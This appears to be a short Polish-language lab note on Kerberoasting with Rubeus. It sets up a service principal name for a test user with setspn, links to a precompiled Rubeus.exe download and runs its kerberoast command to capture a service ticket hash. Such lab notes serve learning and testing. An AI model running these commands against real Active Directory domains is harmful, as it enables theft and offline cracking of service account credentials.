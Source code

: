 ```yaml
---
layout:
  title:
    visible: false
  description:
    visible: false
  tableOfContents:
    visible: false
  outline:
    visible: false
  pagination:
    visible: false
---
```


# Rubeus

<div data-full-width="true">

<figure><img src=".gitbook/assets/24ad458e0f6ed6af467b402e071a4424.png" alt=""><figcaption></figcaption></figure>

</div>

**Windows Server**

stworzenie jakiejkolwiek usługi sieciowej SPN = Service Principal Names dla użytkownika bob&#x20;

```
.\setspn.exe -s http/cyber.local:80 bob
```

podgląd opisu tej usługi

```
.\setspn.exe -T cyber.local -Q */*
```

**Win**

```
https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe
```

uruchomienie i przechwycenie ticketa

```
.\Rubeus.exe kerberoast /outfile:rubeus_tgs_hash
```

